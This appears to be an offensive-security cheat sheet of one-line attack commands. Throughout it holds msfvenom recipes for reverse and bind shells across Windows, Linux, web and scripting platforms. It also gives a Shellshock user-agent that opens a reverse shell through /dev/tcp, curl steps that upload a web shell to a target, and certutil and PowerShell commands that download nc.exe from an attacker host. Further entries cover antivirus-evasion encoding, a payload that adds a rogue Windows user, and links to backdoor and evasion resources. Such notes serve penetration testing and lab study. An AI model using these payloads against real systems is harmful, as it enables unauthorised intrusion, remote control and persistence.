 ### :panda_face: msfvenom : one line commands
```
msfvenom -l payloads | grep "cmd/unix"|awk '{print $1}'
msfvenom -l payloads | grep "cmd/windows"|awk '{print $1}'
msfvenom -l payloads | grep "cmd/java"|awk '{print $1}'
```


* * *
### :panda_face: shellshock via burp - blind injection

```
user agent: () { :; }; bash -i >& /dev/tcp/IPADDRESSMINE/4040 0>&1
```

### :panda_face: google: firefart dirty cow




* * *
### :panda_face: payloads - general
* * *

- List: 
```bash
msfvenom -l payloads
```
- Options:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options
```

* * *
### :panda_face: creating & sending
* * *
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=myIP LPORT=4040 -f aspx > exploit.aspx

curl -X PUT http://targetIP/exploit.txt --data-binary @exploit.aspx
curl -X MOVE -H 'Destination: https://targetIP/exploit.aspx' https://targetIP/exploit.txt

- msfconsole
	- use exploit/multi/handler
	- set lhost myIP
	- set lport 4040
	- run
	
- run multi/recon/local_exploit_suggester
```

* * *
### :panda_face: other
* * *
```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=myIP LPORT=4040 -e x86/shikata_ga_nai –f exe –o exploit.exe

### Example Buffer Overflow Creation
msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python


msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=MYIPADDRESS LPORT=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

#### shellscript create payload
#!/bin/bash

read -p "RHOST: " RHOST
read -p "LHOST: " LHOST
read -p "LPORT: " LPORT

msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp RHOST=$RHOST LHOST=$LHOST LPORT=$LPORT exitfunc=thread -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

```

### :panda_face: uploading exploits using curl
```bash
curl -X PUT http://targetIP/exploit.txt --data-binary @exploit.aspx
curl -X MOVE -H 'Destination: https://targetIP/exploit.aspx' https://targetIP/exploit.txt
 ```

### :panda_face: using curl to exploit
* * *
```bash
- curl -X POST http://URL/example.php

- curl post request with data:

	- curl -d "data=example1&data2=example2" http://URL/example.cgi

- curl POST to a form:

	- curl -X POST -F "name=user" -F "password=test" http://URL/example.php

- curl POST with a file:

	- curl -X POST -F "image=@/path/example.gif" http://URL/uploadform.cgi

```
* * *
### :panda_face: python http/ftp server
* * *
```python
python -m SimpleHTTPServer 80 [Optional: port]
python -m SimpleHTTPServer 8000
python3 -m http.server 80
python3 -m http.server 8000

python -m pyftpdlib -p 21
python3 -m pyftpdlib -p 21

```

* * *
### :panda_face: Windows exploit builds
* * *
```bash
apt-get update
apt-get install mingw-w64
wget -O 40564.c https://www.exploit-db.com/download/40564
i686-w64-mingw32-gcc 40564.c -o exploit.exe -lws2_32
```

* * *
### :panda_face: Windows grabbing exploits
* * *
```
certutil -urlcache -split -f [URL] [Filename.Extension]
```
	-URLcache: Displays or deletes URL cache entries.
	-f: Forces fetching a specific URL and updating the cache.
	-split: Split embedded ASN.1 elements, and save to files on disk.

Using powershell
```
powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://[IP Attack box]/nc.exe -Destination C:\
## powershell version 3 - 
powershell $PSVersionTable.PSVersion
powershell Invoke-WebRequest -Uri http://[IP Attack box]/nc.exe -OutFile C:\nc.exe

```


```
echo $storageDir = $pwd > httpdownload.ps1

echo $webclient = New-Object System.Net.WebClient >> httpdownload.ps1

echo $webclient.DownloadFile("[Download URL]","[File Name]") >> httpdownload.ps1
```
execute
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File httpdownload.ps1
```




* * *
### :panda_face: Windows Payloads
* * *
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	

msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe	

msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe	

msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	

msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

* * *
### :panda_face: Linux Payloads
* * *
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf	

msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	

msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	

msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf

Add a user in windows with msfvenom: 

msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

* * *
### :panda_face: Web Payloads
* * *
```bash

## PHP

msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## ASP

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

## JSP

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

## WAR

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

```

* * *
### :panda_face: Scripting Payloads
* * *
```bash

## Python

msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

## Bash

msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

## Perl

msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl


## Creating an Msfvenom Payload with an encoder while removing bad charecters:

msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"

```



* * *
### :panda_face: links
* * *
- https://github.com/hackerhouse-opensource/backdoors
- https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/


* * *
```note
In Linux, and other UNIX-like systems, you have to be root (have superuser privileges) in order to listen to TCP or UDP ports below 1024.
```
